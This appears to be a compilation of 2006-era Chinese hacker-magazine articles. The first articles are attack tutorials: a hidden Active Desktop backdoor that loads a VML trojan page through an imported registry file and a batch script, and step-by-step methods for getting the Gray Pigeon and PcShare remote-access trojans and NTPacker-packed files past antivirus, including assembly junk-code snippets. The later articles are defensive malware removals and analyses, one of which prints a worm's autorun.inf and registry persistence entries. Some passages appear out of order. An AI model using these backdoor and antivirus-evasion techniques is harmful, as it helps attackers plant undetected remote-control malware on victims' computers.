在桌面的空白处点击鼠标右键，在弹出菜单中选择“属性”，会打开“显示 属性”菜单，然后选择“桌面”项，点击左下方的“自定义桌面”按钮，选择“WEB”选项，然后点击“新建”按钮，打开桌面 WEB 项目添加对话框，在“位置”栏中输入某个网页的链接地址，然后点击“确定”按钮，即可将 WEB 项目添加到对话框列表中。关闭桌面属性对话框后，将会在桌面上显示一个 WEB 网页窗口（图1）。

假如我们刚才添加的网址是一个被挂马的网页呢？我们可以想象出，对方一定是毫不留情地关掉网页，然后拿出杀毒软件狠狠地扫描检查杀一番。不过，结果嘛，我们也可以想象得出来，肯定是一无所获。倘若我们把显示的网页窗口缩小到最小，然后定位在屏幕最边角处（图2），相信一定会躲过许多菜菜的。图2显示的就是最小化的桌面 WEB 项目，甚至我们还可以将其拖动后隐藏在任务栏之后，一点儿也不显示出来。更重要的是，桌面 WEB 项目的位置和大小都可以通过注册表来控制！也就是说，修改别人的注册表就可以达到在桌面留下后门的目的！

打开搜索对话框，设置搜索方式为“包含文字”，内容为“恢复 Active Desktop”，搜索系统目录，很快在 `C:\WINDOWS\Web` 目录下找到了一个名为 `safemode.htt` 的文件。使用 IE 打开该文件，可以看到这个文件就是控制桌面显示提醒内容的（图4）。直接将其删除掉后，再刷新桌面看看，现在桌面上已经不会显示提醒了。OK，这样就可以将 VML 网页木马隐藏起来了。

### 2. VML 网页木马让 Active Desktop 后门无影踪

VML 网页木马执行时最明显的特点就是自动关闭 IE 窗口。这样的话，如果在 Active Desktop 桌面项目中指定显示的是 VML 漏洞木马网页的话，桌面项目是不是会自动关闭呢？如果可以自动关闭的话，岂不是既在后台执行了木马，又不用费心地去隐藏桌面上的网页木马后门了？

我们来测试一下，在桌面项建立一个指向 VML 漏洞木马网页的项目后，该项目确实会自动关闭，但是随之整个桌面也会消失。自动刷新后，桌面显示情况如图3所示。看来 VML 漏洞网页在自动关闭后，由于无法显示桌面 WEB 项目，Windows 系统会自动提醒用户，这样会暴露木马网页，得想法将其取消掉。

#### 3. Active Desktop 后门的应用

那么，Active Desktop 后门具体该如何利用呢？当我们控制对方的电脑后，可以在对方的系统中留下一个 Active Desktop 后门，操作步骤如下。

### 步骤一、制作注册表文件

相应制作好的注册表文件已经收藏在了光盘中。我们直接将该注册表文件导入后，并不会立即生效，而是具备触发性运行特性。当用户打开桌面属性设置框后，无论是否更改桌面属性设置，只要关闭对话框，Active Desktop 就会启用，在屏幕右下角处显示一个最小化隐藏的桌面 WEB 项目，打开的是百度页面。

在实际使用过程中，可以修改其中“Source”对应的链接，改为木马链接地址。“SubscribedURL”和“FriendlyName”键值对应的是 Active Desktop 对话框中显示的名称，改为“空白页面”替换原有的默认设置，以达到迷惑对方的目的。最重要的键值是“Position”和“OriginalStateInfo”，这是用来指定 WEB 项目位置与大小的，可以修改其值达到完全隐藏的目的。

### 步骤二、制作 BAT 文件

制作 BAT 文件的目的是为了将注册表文件自动导入。在记事本中输入 `regedit /s 1.reg`，该命令是在后台自动导入注册表文件，将“1.reg”改为注册表文件名。如果桌面 WEB 项目指向的是 VML 木马网页的话，还需要输入 `del C:\WINDOWS\Web\safemode.htt`，最后保存文件为“1.bat”文件。

### 步骤三、制作自解压文件

利用 RAR 压缩程序，把 `1.reg` 和 `1.bat` 制作成自解压程序，如图5。

只要桌面 WEB 项目隐藏得好，这个后门就可以实现让我们的木马不死！对方绝对难以发现这个后门，也许他翻遍了系统文件夹、注册表、隐藏文件，但怎么也想不到后门原来就在他的眼前！

> （文章中涉及到的 IE VML 网页木马生成器以及桌面 WEB 项目 `.reg` 文件已经收录于光盘中）

### 菜鸟免杀灰鸽子 2006

司徒浩男

前几日一好友要我帮他给灰鸽子制作免杀，其实 2006 版的灰鸽子在制作免杀上和网上其它破解版没什么区别，只是 2.02 版的没有 HOOK 这个 DLL 文件而已。对其免杀无非就是加花、加壳、定位特征码再修改等几种常用手段而已。

下边，我们就来给灰鸽子 2006 的服务端制作免杀。我们的目的是可以让灰鸽子 2006 躲过卡巴斯基、瑞星、金山、江民等常见的几款杀毒软件的查杀。需要处理的文件主要有 `setup.exe`（灰鸽子的服务端程序）、`MAINDLL.DLL`（灰鸽子服务端里的 DLL 程序）、`GETKEY.DLL`（灰鸽子服务端里的 DLL 程序）。

我们需要用到的工具主要有 MaskPE 2.0（加花工具）、nsAnti-CrackEd（一款壳工具）、Svk-protector（程序免疫工具）、restorator2006（一款资源修改工具）。

### 第一步、导出 MAINDLL 文件

先使用资源修改工具 restorator2006 打开生成的灰鸽子服务端 `setup.exe`，导出 MAINDLL 这个 DLL 文件，保存为 `MAINDLL.DLL`，如图1。

### 第二步、导出 GETKEY 文件

再使用资源修改工具 restorator2006 打开刚才我们导出来的 `MAINDLL.DLL`，把 `MAINDLL.DLL` 中的 `GETKEY.DLL` 文件导出来，保存为 `GETKEY.DLL`，如图2。

### 第三步、对 GETKEY 文件制作免杀

使用免疫工具 Svk-protector 加载 `GETKEY.DLL` 文件，然后点保护，提示文件加密成功，如图3。使用卡巴、瑞星、金山、江民对其查杀时就会发现已经免杀了，这样我们就完成了对 `GETKEY.DLL` 文件的免杀。

图4

### 第四步、将 GETKEY 文件导入到 MAINDLL

再使用资源修改工具 restorator2006 打开 `MAINDLL.DLL` 文件，把免杀的 `GETKEY.DLL` 导入到 `MAINDLL.DLL` 文件里，然后点保存。

### 第五步、对 MAINDLL 制作免杀

按照上边第三步的方法，使用 Svk-protector 免疫程序加载 `MAINDLL.DLL` 文件后点保护，给 `MAINDLL.DLL` 加密。

### 第六步、将 MAINDLL 导入到服务端 setup.exe

按照上边第四步的方法把加密后的 `MAINDLL.DLL` 文件导入到 `setup` 服务端主文件中，然后点保存。不过，此时的服务端 `setup` 主文件还没有免杀。

### 第七步、对服务端 setup.exe 制作免杀

使用 MaskPE 2.0 加载 `setup.exe`，点击“make file”按钮生成 `setup1.exe`，如图4。然后再使用 nsAnti.CrackEd 给 `setup1.exe` 加个壳。现在，当我们使用卡巴、金山、瑞星等查杀时，就会发现这个服务端已经免杀成功了，如图5。

图5

最后我们再来测试一下服务端是否能正常上线，结果是可以的。本文中我使用的方法比较简单，没有使用 OD 加花、定位特征码修改等，因此对于菜鸟们来说，相信更容易掌握。

（本文所涉及到的 MaskPE 2.0、nsAnti.CrackEd、Svk-protector 和 restorator2006 已收录到光盘中）

### 绝杀新技术

### NTPacker 壳的改造

沙漠之狐

众所周知，免杀技术通常分为内存免杀和文件免杀。内存免杀技术相信大家已经练得炉火纯青了，只要针对杀毒软件换到对应的内存特征代码段，然后使用 OD 修改即可，也可以加花指令达到同样的免杀效果。文件免杀的方法也很多，加壳就是其中最直接最简单的方法之一。

给木马加的壳，一般都是生僻的壳或者是加密强度比较高的壳。那么一个普通的壳能否通过自己的修改来达到同样的目的呢？如果可以的话，那么以后我们的免杀思路就更宽阔了。

图1

隆重请出今天的主角——NTPacker v2.1，这是一款国外的壳（图1）。最初由我的朋友小淫汉化出来，前后出了不少版本，功能也比较强大。有三种加密方式，还可以插入系统进程。不知道为什么凡是被此壳加密过的文件，卡巴斯基一直认为是病毒，也许此壳用于加壳木马的次数实在太多，卡巴太敢于一竿直接杀了此壳，不管原来的文件是否带毒，实在是很可惜。

首先整理一下思路：卡巴斯基杀的是壳，我们先找一个不带毒的 exe 文件，使用 NTPacker 加壳，然后再对壳做免杀，这样就可以通过卡巴斯基的查杀了。

我选择了一个体积小的、而且本身不带壳的可执行文件“Windows 按钮突破专家”来做测试。先使用卡巴查杀一下这个文件是否带毒，如图2。

图2

卡巴斯基检测该程序本身不带毒，然后我们使用 NTPacker 加壳后再杀看，加壳后的文件已经被当成是木马了，如图3。

图3

### 牧马记

其实改造壳的思路和改造木马一样，用到的工具还是 CCL，不同的是现在是带壳改造！在 CCL 的手动操作参数设置中，设定每次替换规定字节大小为 32（图4），然后用卡巴查杀一下生成后的文件目录，特征代码定位如图5。


使用 OC 偏移重转换载入之后，转换为特征代码内存地址为：00434080、004340C0，如图6。

`add eax,0E` 与 `sub eax,-0E` 是完全等同的！不懂的朋友可以看一看汇编手册；制作免杀，汇编知识不可缺少哦。此刻卡巴大叔已经不认识被 NTPacker 加壳后的 Windows 按钮突破专家了。知道了修改方法后，以后读者们就都可以使用这个方法来修改使用 NTPacker 加壳的木马了。


我们来制作一个用 NTPacker 加壳后免杀补丁文件。打开注册机编写器，然后选择“其它”中的“制作文件补丁”（图8）。

使用 OD 打开加壳的文件，看看这段代码究竟是什么，如图7。这段代码最好修改的无非就是 `004043AA add eax,0E`，意思是 eax 加上 0E。把这段修改为 `sub eax,-0E`，含义等价，从而实现特征规避。


在弹出窗口中填写“个人信息”，如图9。原始文件选择用 NTPacker 加壳后的 exe 文件，已破解文件选择免杀后的 NTPacker 加壳文件。这样一个木马就免杀完成了，以后就不需要重复修改，直接打上免杀的补丁即可，如图10。

好了，以上就是修改的全部过程，其实也就是修改 NTPacker 壳特征代码，没什么技术含量。其它壳的修改方法类似。

> （本文所涉及到的 NTPacker V2.1、Windows 按钮突破专家、CCL、OC 偏移重转换器、OllyDbg 和注册机编写器已收录到光盘中）

### PcShare2006 过关术

天涯衰草

我们将卡巴斯基的病毒库升级到最新版本，然后对 PcShare 2006 进行查杀。基本上查杀结果会报告有四个文件存在问题，分别是 PcHide.sys、PcInit.exe、PcClient.dll 和 PcKey.dll……那么，我们如何给它制作免杀，好让它躲过杀毒软件的查杀呢？

#### 一、PcInit.exe 的免杀

制作免杀的方法是加花及二次加花。首先使用 PEiD 对这四个文件进行检测，查看它们是否进行了加壳……打开 OllyDbg 并载入 PcInit.exe，定位入口点后在汇编窗口写入指令（图1）。


```asm
push ebp
nop
nop
mov ebp, esp
inc ecx
nop
push edx
nop
nop
pop edx
nop
pop ebp
inc ecx
jmp 00402AD4 （可以是在壳边界）
nop
nop
```

由于只加一个花指令很难躲过杀毒软件的查杀，所以还需要再加一个花指令，也就是所谓的二次加花。

```asm
push ebp
mov ebp, esp
jo 原入口，即00402850
jno 假入口，即00402950
```

程序入口点修改完成后，保存文件。选择右键菜单中的“复制到可执行文件”，接着在它的子菜单中选择“全部修正”命令，弹出一个标题为“复制所选到可执行文件”的窗口，并点击其中的“全部复制”按钮，最后在弹出的新窗口中点击鼠标右键，接着点击“保存文件”命令，将我们修改的程序另存为 PcInit1.exe 即可（图4）。

由于刚刚添加了花指令，需要修改文件的入口点，可以利用 PEditor 这款软件修改文件入口点。运行 PEditor，点击“浏览”按钮选择刚刚修改好的文件。PEditor 会自动读取服务端程序的“文件信息”，我们将原来的入口点 00402850 更改为现在的入口点 00402A00，然后点击“应用更改”按钮对刚才的设置进行确认即可（图5）。


#### 二、PcKey.dll 的免杀

制作免杀的方法是加花及修改文件头。这个文件有些奇怪，通过不同的工具检测到的入口点不同，PEiD 检测到的是 0000177B，而用 OllyDbg 载入却停在 1000177B 这句。由于本人也是菜鸟，通过询问才知道，1000177B 是文件的内存入口点（图6）。


图6

现在进行加花，我们还是加上面的那一段花指令。同样拖动 OllyDbg 的侧边栏找到一段程序的空白部分，我找到的是 10001820 这句，点击右键菜单中的“汇编”命令，依次在“汇编”窗口中写入，最后跳转到任意地址，我跳转到了 10001835。接着来到入口点 1000177B 这句，向下选择了三行并点击右键菜单，选择“复制”菜单中的“到剪贴板”命令。复制完成后，同样点击鼠标右键，选择“二进制”菜单中的“使用 NOP 填充”命令，将这三行代码进行填充（图7）。然后回到 10001850 这句，点击右键菜单中的“汇编”命令，依次在“汇编”窗口中将刚刚复制的三行代码写入。最后还需要在第三行代码后添加一句 `jmp 1000177F`，从而使程序能够跳转回原来的第四行代码，保证程序的连贯性。最后通过上面的方法保存修改的文件，将我们修改的程序另存为 PcKey1.dll，最后通过 PEditor 将入口点改到 10001820 即可。


图7

#### 三、PcClient.dll 的免杀

免杀方法是先加壳，然后再加花指令。以前我只知道进行免杀先需要脱壳，没想到还可以先加壳再做处理，看来是自己太菜啊。首先使用 ASPack 进行加壳，运行 ASPack 后，点击“打开”按钮，选择 PcClient.dll，选择完成后 ASPack 会自动为服务端进行加壳（图8）。加壳完成后，使用 OllyDbg 载入加壳成功的 PcClient.dll，程序自动找到入口 1000C001。接着找到一段程序的空白部分，我找到的是 1000D151 这句，然后通过右键的“汇编”命令写入一段花指令，再跳转到原来的入口点 1000C001。最后通过上面的方法保存修改的文件，再通过 PEditor 将入口点改到 1000D151 即可。


图8


图9

## 玩转UDP木马

目前在网络上流窜作案的木马通常都是使用 TCP 端口进行远程控制，但是这种木马对稍具网络安全防范意识的朋友来说是很容易被发现的。笔者的入侵者面对这种情况，开发出了一种用 UDP 端口的木马，这种木马的特点就是隐蔽性极好，不容易被发现。本文就来介绍笔者处理 UDP 木马“神气儿”的经过，为大家提供一点参考。

发现只有一种名为神气儿的国产木马是采用 UDP 协议进行数据传输的（X 小编：UDP 的木马、后门不止一种，但可以根据木马的“行为”判断，像插入浏览器进程、反连端口等），如图2。


图2

### 一、情况描述

开机后，只要我拨号上网，网络防火墙就弹出一个提示窗口，询问是否允许“Internet Explorer”连接网络。我从提示框的“地址”一栏也证实了确实是 IE 浏览器的进程要求访问互联网，可我上网从来都只用 Maxthon。原以为是系统本身的问题，便重新启动系统，可是当我拨号上网后不久，IE 浏览器便要求访问互联网。对系统进行一次彻底的病毒扫描，结果一无所获。

### 二、根据端口查找线索

虽然杀毒软件没有扫描出结果，但我隐隐约约感觉到这个幕后黑手可能是一个木马程序，因为流氓软件不会对系统是否联网进行判断，而很多木马才会有这个功能。之所以不被查杀，可能因为它是一个全新的木马程序，也可能被入侵者进行了特征码修改的免杀操作。

再次拨号上网，防火墙又出现了 IE 浏览器连接互联网的请求。运行木马辅助查找器，这是一款可以辅助用户进行恶意程序检查的工具（图1）。


图1

点击“端口信息”选项，在这里用户不但可以查看到哪些端口被打开使用，还可以看到是哪些进程打开的这些端口，从而方便用户根据实际情况决定是否终止进程来关闭某些端口。点击“刷新”按钮可以及时更新当前的端口情况。

从查找到的信息中我发现一个特别的地方，就是 IE 浏览器的进程居然用的是 UDP 协议，也就是说这个木马程序使用的是 UDP 协议。而正常情况下，不管是 IE 浏览器的网络访问，还是我们常见的木马程序在进行数据传输的时候，都是采用 TCP 协议。现在我只要查找到哪些木马程序是采用 UDP 协议进行数据传输的，就可以判断出是什么木马程序在作祟。

事后查出，神气儿是国内第一款 UDP 木马。此木马号称“无进程、无服务、无 DLL”。该木马是以系统服务启动方式，使用者可以自定义木马启动服务的名称、服务端程序的名称、安装目录以及上线的端口等，增加了发现此木马的难度。

### 三、根据特性清除木马

由于神气儿的服务端程序是通过系统服务进行启动的，所以要通过服务管理器来查看系统中可疑的服务。在“我的电脑”图标上点击鼠标右键选择“管理”命令，接着在弹出的“计算机管理”窗口中选择“服务”选项（图3），然后在这些系统服务中查找可疑的服务。果然从中查到一个名为 SQx 的可疑服务，接着记录下这个启动服务的名称，以及所指的程序路径：`\Windows\system32\sapoolsv.exe`。


图3

接下来使用 SC 删除服务，在“开始→运行”输入 CMD，进入命令提示符窗口，然后输入“sc delete sqe”（图4），将该服务删除。点击木马辅助查找器中的“进程监控”选项，点击“自动扫描可疑程序”按钮，程序会自动对当前的进程进行查看，判断是否包含可疑进程，结果还是没有查出可疑线程。


图4

我只好选择开 IE 浏览器的进程，接着就可以在“DLL 名称”窗口中查看该进程下所有的线程。我意外地从中找到一个可疑线程 soul.dll。终止这个假 IE 浏览器的进程，再将 `C:\Windows\system32` 目录中 spoolsv.exe 和 soul.dll 文件删除。然后重新启动电脑，再次拨号上网，防火墙没有弹出连接请求，木马清除成功。

> （本文中所涉及到的木马辅助查找器已收录到光盘中）


### 菜鸟的病毒战争

枫叶秀士

随着社会信息化进程的加快，信息安全也显得越来越重要。最近一两年，针对金融系统的病毒越来越多，危害也越来越大，本文要讲的就是一次由于银行内部人员的不负责而导致银行内部遭遇病毒侵袭的例子。

2006年6月，某银行职员王某的手提电脑被朋友借走，一个月后，电脑被送回。王某没有对电脑进行必要的检查，就直接连接在银行专用内部网上。第二天下午，某处处长的 U 盘出现了奇怪的症状，于是作为技术支持人员的我就来到了处长面前，了解情况之后一脸自信，对处长保证马上解决问题！于是将 U 盘拿回到自己的办公室，然后就插到了自己的爱机上（路人甲：“小子，你不要命了！”）。NO！不是因为我不怕病毒，而是因为我电脑上安装的是卡巴斯基，并且每天都升级到最新。以前也有过几次类似的情况，但是只要一连在电脑上卡巴就报警，之后病毒就被送上了西天！因此，我对卡巴是极度信任的，可今天让我感到意外的是卡巴没有报警？！于是我便找到了那个可疑文件 RAVMON.EXE，点击右键“扫描病毒”，卡巴很不情愿地动了动，可结果却显示没有病毒！看来此路不通！我马上卸掉了卡巴，又装上了 NOD32（听说这个东西很经典），升级之后进行查杀，可返回信息仍为无毒？！于是又用此杀毒软件的“深入分析”功能查杀，但仍无功而返。与此同时我的同事分别使用最新版的瑞星和诺顿进行了杀毒，结果也没有一种杀毒软件认为它是病毒！看来这个病毒可能是经过了加壳加密处理，或者是为了某种特殊目的而被简单编写出来的了。想到这里我便大汗直流，大话已经说出去了，更是没有回头路走！难道为了这个就严重损害我在领导心目中的美好形象？！既然杀毒软件都不查杀它，那我就亲自 Kill 掉这个害人虫！看了这么长时间的 X 档案，顺便也练习一下手动杀毒，这不正是个难得的好机会吗？

先来介绍一下我今天要使用的工具：瑞星听诊器 4.1 版，压缩包为 108K，是瑞星公司新出的工具。

首先点击“开始扫描”（图1），之后便会在此文件的同一目录下生成名为“瑞星听诊信息”的文件，系统的全部信息就都被收集在里面了！同时该工具可以把我们电脑此刻的信息以 HTM 文件的形式显示出来，下面我给大家逐项讲解一下该 HTM 文件中的具体内容。


图1

病毒家族的分析：主要是辨别一下当前系统中有无已知和未知的病毒以及相应的病毒变种。

系统活动进程：系统当前的进程名。

当前启动项：其中显示的是注册表中启动项的情况。

系统文件关联：文件关联有很多种，如 EXE 文件关联出错就非常麻烦。由于是病毒引起的，而杀毒软件的主文件都是 EXE 文件，既然 EXE 文件关联出错，又怎能运行得了杀毒软件呢？所以处理起来很麻烦。

其它启动项：如 WIN.INI、SYSTEM.INI 等启动项，手动查杀病毒这些启动项是必须要去查看的。

`WINLOGON 启动项：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\。`

`IE-BHO：捆绑在 IE 上的程序，注册表的位置为 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\BrowserHelper Objects\。`

WINSOCK-SPI：WINSOCK-SPI 函数相关的项目，相应的键盘钩子也是在这里的。

系统服务项：详细列出了现在系统的服务项目。类似于 CMD 下 NET START 命令，介绍要比之更详细。

`文件驱动：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services 与文件相关驱动文件。`

系统驱动项：系统驱动的项目，比如黑客守卫者在这里就有显示  
`C:\DOCUME~1\ADMINI~1\LOCALS~1\TEMP\RAR$EX01.192\黑客守卫者\HXDEFDRV.SYS`，这可是 ROOTKIT SHELL 的藏身之处呀！

这样，我们就把系统中几乎所有的角落都查看到了。只要留心观察便可发现，大块白色的都是值得注意的项目，当然也不是所有白色字体显示的都是病毒，我们也要具体情况具体分析。另外一个工具就是 killbox.exe，这是一个老牌的杀毒工具了，使用方法非常简单。

我们来了解一下此病毒的发作情况，其中大致可分为两点：

- 1. 每隔一段时间电脑的硬盘就会出现一个“高峰”期，即硬盘灯狂闪，CPU 出现 95% 以上的占有率，硬盘上的数据被长时间读取。并且瑞星杀毒软件无法正常运行，实时监控中心被关闭且无法打开。
- 2. 在每次开机后提示“see to the c:\windows\ravmon.exe.log error”，并且所有 USB 设备如 U 盘、移动硬盘、MP3、录音笔等电子设备热插入后，双击移动设备的盘符会明显出现速度变慢的情况。随后出现了几个不明文件，人为手动删除后此文件仍能自动出现，并且无论你怎么卸载移动设备都无法成功加载，只有强行拔除。

`c:\windows\` 目录下出现两个文件 RAVMON.EXE 和 RAVMON.EXE.LOG（为了让菜鸟都能懂，有必要再讲一下双扩展名文件：病毒制作者为了使病毒能够更好地传播及执行，就使用了这种欺骗手法，比如“文件.txt.htm”就是一个双扩展名，其中“文件.txt”是文件名，而“.htm”才是真正的扩展名，但我们看到的却只有“文件.txt”，这是因为病毒制作者使用了一些方法将真正的扩展名隐藏了）。

我断定该文件就是病毒文件，因为真正的瑞星文件是安装在 `C:\PROGRAM FILES\COMMON FILES\` 目录下的，而在 `C:\windows\` 目录下是没有 RAVMON.EXE 这个文件的，并且所有的 RAVMON.EXE 文件在被删除后还会自动生成。点击“我的电脑”→“工具”→“文件夹选项”→“查看”，选择“显示所有文件和文件夹”，如图2。此时进入 USB 设备便可看到根目录下的文件，有了这几个文件，病毒就能以此为基点再次传播给其它接入设备，此传播方法与 U 盘窃密者有相似之处。


下面我们开始手动清除它！首先用瑞星听诊器扫描系统得到 HTM 报告文件，很快就找到了该病毒在系统中的小动作，如图3。


从图中可以看出它对 USB 设备的 AUTORUN.INF 文件进行了修改，加入了三行代码，意思再明白不过了！那几个文件全部都是带毒。RAVMON.EXE 在系统中注入了两个 DLL 进程，其中 MSVCR71.DLL 文件是大多数应用程序调用到的一个文件，并且这个病毒会把它自动复制到现在和主机相连的 USB 设备的根目录下，以便做进一步传染之用，该病毒制造者可谓用心良苦（图4）！这样下次系统启动时病毒还会自动被加载运行，如图5。


病毒的情况大致就这些了，我们开始杀毒！在“开始”菜单中的运行处输入 MSCONFIG 命令，在启动项上把 RAVMON.EXE 的项目去除，使它不能开机后自动运行。再利用 KILLBOX 工具删除在 `C:\WINDOWS\` 目录下的 RAVMON.EXE 和 RAVMON.EXE.LOG，以防止其再次出现。删除的顺序应是先删 C 盘下的两个文件，然后删除移动存储设备根目录下的那几个文件。在删除移动设备里的 MSVCR71.DLL 时要选“删除 DLL 文件前先反注册此文件”后点击删除，随着屏幕一闪后提示所选“文件已被成功删除”，如图6。当然到这里还没有结束，我们还要把所有被病毒感染的 USB 设备都接到电脑上，给它来个一网打尽！


记得还要将 AUTORUN.INF 文件中的三行代码删掉。在实际应用中没必要删除 `C:\Windows\system32` 下的 MSVCR71.DLL 和 ODBCBCP.DLL，因为最后在系统重启后再次查看瑞星听诊器 4.1 生成的文件，会发现因为没有 RAVMON.EXE 文件，所以不再调用那两个 DLL 文件，自然就没有必要删除了。因为这两个文件属于系统文件，如果删除的话还有可能把系统弄坏。由于该病毒在系统进程中屏蔽瑞星杀毒软件，所以用瑞星杀毒软件的朋友还要把瑞星卸掉后重新安装一遍，并且要注意及时升级呀。对于普通公司这样也就完事了，但作为国有金融监管机构，还有最后必不可少的一步，就是此次病毒事件的灾难报告，如此次病毒的起源、所感染的主机台数、是否泄漏机密以及机密级别文件、事故所造成的损失等。写完之后要求本部门主管领导批阅后才能告一段落。

本文没有过多讲述具体的杀毒过程，而重点介绍了对未知病毒的发作特征和其发作原理的了解，目的是为了能让读者更多地了解其中的理论知识，今后遇到类似事情时知道如何应对。

就在我结稿的第二天，卡巴已能够将它清除了，并且在其网站上发现最早的病毒样本提交者是在 2006 年 5 月份，把此病毒命名为 worm.win32.rjump.a，但为什么到现在才能杀除，就不得而知了。

（本文所涉及到的瑞星听诊器和 killbox 已收录到光盘中）

## 让未来寻求认识 rose 病毒

我的电脑失去网络好多天了，每次需要资料时总是去网吧 copy。今天打开 U 盘，无意中发现自己中招了，如图1。

病毒的名字也太俗气了吧，伪装的木马、病毒遇到多了，看到具有诱惑力的名字就等于看到了危险（莫非这就是传说中的免疫力）。趁着心情不错赶紧简单分析分析。我的习惯是先用 OllyDBG 加载病毒看看。初次见面就发现病毒是用令人头痛的 VB 编写，接着看看字符串参考，还好，有不少发现，如图2、图3。

病毒的文件操作和注册表操作一目了然，还没有开始正式分析，已经有八成了解了，看来这个病毒的隐蔽性真的很差。接下来就是传统……


```
UNICODE "explorer"
UNICODE "c:\windows\system32\run.reg"
UNICODE "c:\windows\system32\fun.reg"
UNICODE "Windows Registry Editor Version 5.00"
UNICODE "[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]"
UNICODE "dll"
UNICODE "c:\\system32\\rose.exe"
UNICODE "c:\windows\system32\run.reg"
UNICODE "regedit"
UNICODE "/s"
UNICODE "c:\WINDOWS\CurrentVersion\Run]"
UNICODE "d:\systemfile.com"
UNICODE "e:\systemfile.com"
UNICODE "h:\systemfile.com"
UNICODE "\autorun.inf"
UNICODE "\autorun]"
UNICODE "shellexecute=rose.exe"
UNICODE "\autorun.inf"
UNICODE "\rose.exe"
UNICODE "rose.exe"
UNICODE "\rpos1.x"
```

## 毒疮

个人反汇编分析了，感觉 VB 的代码看起来不如 C 的代码那么清晰。程序的运行和传播需要两个关键的东西：rose.exe 的路径（用于传播）和 VB 的运行库（用于运行），这两个关键的东西是通过如下代码获取的：

```txt
UNICODE "c:\windows\system32\systemdate.ini"
UNICODE "c:\windows\system32\systemdate.ini"
UNICODE "C:\NTDETECT.COM"
UNICODE "c:\system.sys"
UNICODE "C:\NTDETECT.COM"
UNICODE "shutdown"
UNICODE "-s -t 0 -f"
```

```txt
regedit /s ...
```

该病毒还生成以下文件：

```txt
c:\windows\system32\systemdate.ini
d:\systemdate.ini
C:\NTDETECT.COM
d:\systemfile.com
```

```txt
6A28E46B  >call esi
6A28E46D  test eax,eax
6A28E46F  je 6A2B745C
6A28E475  lea eax,[ebp-20C]
...
DLL(kernel32.GetModuleFileNameA)
```

一旦 rose.exe 得以运行，rose.exe 会将自身复制到各个磁盘下：

```txt
00403197  >push 00401EB0
0040319C  >call [<&MSVBVM60.__vbaStrCat>]
...
将rose.exe复制到c:\rose.exe
```

为了更好地隐藏自己，rose.exe 还被设置了只读和隐藏属性，该功能是通过调用 MSVBVM60.rtcSetFileAttr 实现的，代码如下：

```txt
0040322C  push eax
0040322D  call [<&MSVBVM60.#580>]  ; 将rose.exe设置为只读和隐藏属性
```

同时为了更快地传播，病毒通过 autorun.inf 自运行，其在每个磁盘下都生成了 autorun.inf，该文件的内容为：

```txt
[autorun]
shellexecute=rose.exe
```

该功能是通过调用如下代码实现的：

```txt
00402F08 >push 00401E60
00402F0D >push 2
00402F0F >push 00401CF8
00402F14 >call [<&MSVBVM60.__vbaPrintFile>]
...
UNICODE "[autorun]"
UNICODE "Shellexecute=rose.exe"
```

如果用 C 语言来实现类似的功能，可以使用如下几个函数：fopen()、fprintf()、fclose()。

当然了，Windows 下的病毒大多数都不会忘记修改注册表来传播和保护自身，该病毒也不例外，生成 c:\windows\system32\run.reg，该文件内容：

```txt
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"dll"="c:\system32\rose.exe"
```

所采用的技术无非是明目张胆地直接生成和替换系统文件，上述分析中已经提到了，不再赘述。对我而言唯一的一丝惊喜是该病毒中还有一条非常有用的快速关机命令：shutdown -s -t 0 -f，可以用于瞬间关机。

至此该病毒分析已经索然无味，其隐藏方式毫无新技术可言，而这个则是我最关注的地方，因为如今的年代，公开就意味着失去价值。对病毒而言，被公众发现就等于消失。

- 杀掉 rose.exe 进程。
- 删除以下文件和注册表项：
- c:\system32\rose.exe
- c:\system.sys
- c:\windows\system32\run.reg
- c:\windows\system32\systemdate.ini
- d:\systemdate.ini
- d:\systemfile.com
- 以及其它盘下的 autorun.inf 和 rose.exe

由于该病毒比较简单，很适合做练习（大家遇上了不妨做个练习），所以做了点简单的分析，祝大家暑假愉快。

### 什么是进程/线程？

在查杀木马的时候，高手们最喜欢说的一句话是“首先查看一下进程有没有异常”……程序在执行的时候，系统中就会出现一个同名的“进程”；进程可理解为运行中的程序。一个进程可能会打开很多线程，大家可以理解为一个程序要完成一定的任务，需要把任务分配给很多“线程”分别协作。


## 新版QQ病毒

### 逼着过怪招

网际悠游

我本来是个安分的人，跟 QQ 病毒向来是井水不犯河水，但还是不该发生的事情还是发生了。在一个伸手不见五指的白天（没拉开窗帘），有个不错的同学找我，聊啊聊了几句忽然发来一条信息，相信没有人会去仔细看 QQ 空间的网址吧！顺手点了一下，接着就开始弹窗口了，自动发 QQ 信息了（图1）。汗！还真厉害！语言极具诱惑性，因为开了一个群，信息刚发到群里就有同胞遇害了！！


图1

我打开任务管理器发现了几个陌生的新进程，顺手结束。还有个类似 svchost.exe 的进程 svch0st.exe，啥也不用说，直接结束掉。打开 C 盘 WINDOWS 文件夹一看，多了几个奇怪的文件，你说自己是病毒文件就算了吧，干嘛还要写在脸上呢，图标都很普通的：EXE 下都一样，还是特别丑的那种。我都没见过，其中还有一个 RUNDLL32.EXE（图2）。又看了看注册表启动项，把可疑的启动项删掉，找到文件踢出电脑。


图2

简单多了！还得靠咱家的 ICEWORD，打开查看 explorer.exe 模块加载，发现一个奇怪的模块 C:\Program Files\Common Files\Microsoft Shared\MSInfo\xiaran.dat。找到文件夹一看，隐藏的，还是今天创建的（图3）。


图3

哈哈，总算让我逮到了。剩下的事情就是打开注册表，查找 C:\Program Files\Common Files\Microsoft Shared\MSInfo\xiaran.dat，找到 2 个键值；在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\ShellExecuteHooks 下，如图4。终于找到它的老家了，直接 DEL 掉，删掉注册的键值。再把 HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows 下的 RUNDLL32.EXE 删除，如图5。这次真的收工了，欢呼 ING！


图4

以为这样就搞定了，打开一个网页，主页给改掉了。改就改了吧，还自动下病毒。来火了，刚才还跟别人吹这个病毒很菜。再看看进程，没什么可疑的了啊！看来要好好分析分析了。

